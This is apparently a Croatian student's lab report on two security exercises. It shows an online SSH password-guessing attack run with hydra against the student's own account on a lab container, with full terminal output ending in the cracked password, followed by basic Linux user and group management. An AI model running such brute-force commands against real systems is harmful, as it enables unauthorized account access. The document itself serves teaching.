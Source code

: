 # Peta i šesta laboratorijska vježba

## **Peta vježba**

Kroz ovu vježbi smo radili online password guessing attack. Probali smo koristeći unaprijed definirani dictionary pronaći lozinku iz njega koja se podudara s mojim korisničkim imenom na Docker containeru. S obzirom da smo radili online napad aktivno smo kontaktirali server i pokušavali se prijaviti direktno na određenu IP adresu.

```bash
Microsoft Windows [Version 10.0.19043.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Users\A507>wsl
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ wget -r -nH -np --reject "index.html*" http://a507-server.locary/g3/dictionar
--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/
Resolving a507-server.local (a507-server.local)... 10.0.1.172, fe80::aaa1:59ff:fe69:5278
Connecting to a507-server.local (a507-server.local)|10.0.1.172|:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘dictionary/g3/index.html.tmp’

dictionary/g3/index.html.tmp      [ <=>                                              ]   4.59K  --.-KB/s    in 0s

2022-01-11 11:03:36 (259 MB/s) - ‘dictionary/g3/index.html.tmp’ saved [4700]

Loading robots.txt; please ignore errors.
--2022-01-11 11:03:36--  http://a507-server.local:8080/robots.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 404 Not Found
2022-01-11 11:03:36 ERROR 404: Not Found.

Removing dictionary/g3/index.html.tmp since it should be rejected.

--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/dictionary_offline.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 200 OK
Length: 350546 (342K) [text/plain]
Saving to: ‘dictionary/g3/dictionary_offline.txt’

dictionary/g3/dictionary_offl 100%[=================================================>] 342.33K  --.-KB/s    in 0.03s

2022-01-11 11:03:36 (11.7 MB/s) - ‘dictionary/g3/dictionary_offline.txt’ saved [350546/350546]

--2022-01-11 11:03:36--  http://a507-server.local:8080/dictionary/g3/dictionary_online.txt
Reusing existing connection to a507-server.local:8080.
HTTP request sent, awaiting response... 200 OK
Length: 3346 (3.3K) [text/plain]
Saving to: ‘dictionary/g3/dictionary_online.txt’

dictionary/g3/dictionary_onli 100%[=================================================>]   3.27K  --.-KB/s    in 0s

2022-01-11 11:03:36 (287 MB/s) - ‘dictionary/g3/dictionary_online.txt’ saved [3346/3346]

FINISHED --2022-01-11 11:03:36--
Total wall clock time: 0.09s
Downloaded: 3 files, 350K in 0.03s (12.0 MB/s)

student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hydra -l jukic_marija -P dictionary/g3/dictionary_online.txt 10.0.15.0 -V -t
4 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-01-11 11:05:27
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 478 login tries (l:1/p:478), ~120 tries per task
[DATA] attacking ssh://10.0.15.0:22/
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtal" - 1 of 478 [child 0] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajpgz" - 2 of 478 [child 1] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtnj" - 3 of 478 [child 2] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajplk" - 4 of 478 [child 3] (0/0)
....
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtlp" - 331 of 478 [child 0] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "kajtgz" - 332 of 478 [child 2] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "cowona" - 333 of 478 [child 3] (0/0)
[ATTEMPT] target 10.0.15.0 - login "jukic_marija" - pass "thened" - 334 of 478 [child 1] (0/0)
[22][ssh] host: 10.0.15.0   login: jukic_marija   password: thened
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-01-11 11:11:04
```

Uspjela sam pronaći lozinku koja je bila unutar dictionaryja koja se podudarala s lozinkom na docker containeru s mojim imenom. Nažalost statistika nije bila na mojoj strani, pa se moja lozinka nalazila na drugoj polovici dictionaryja pa je za pronalazak podudaranja trebalo malo više vremena.

S obzirom na ograničeno vrijeme nismo stigli napraviti offline password guessing attack.

## Šesta vježba

Kroz ovu vježbu smo učili kako upravljati korisničkim računima na linuxu, odnosno istraživali smo kontrolu pristupu.

U Linux-u svaka datoteka ili program (binary executable file) ima vlasnika (user or owner). Svakom korisniku pridjeljen je jedinstveni identifikator User ID (UID). Svaki korisnik mora pripadati barem jednoj grupi (group), pri čemu više korisnika može dijeliti istu grupu. Linux grupe također imaju jedinstvene identifikatore Group ID (GID).
S id provjeravamo identifikatore uid i gid za korisnika te pripadnost grupama.
Kad koristimo sudo to nam daje administratorska prava tj. s time dokazujemo da pripadamo grupi sudo.
```bash
sudo adduser alice3
sudo adduser bob3
```
S ovom komandom kreiramo nove korisnike koji pripadaju određenim grupama i imaju određeni uid i guid.
Da bi ušli u ove korisničke račune koristimo sljedeću naredbu:
```bash
sudo - alice3
exit
```
Exit koristimo unutar shella korisnika za vraćanje na shell s administratorskim ovlastima.
Česte linux komande su mkdir za kreiranje novih direktorija, cd za ulazak ili cd.. za izlazak iz nekog direktorija, za ispis nekog filea koristimo cat.
Kreiramo neki file s tekstom na sljedeći način:
```bash
echo "Hello world" > security.txt
```
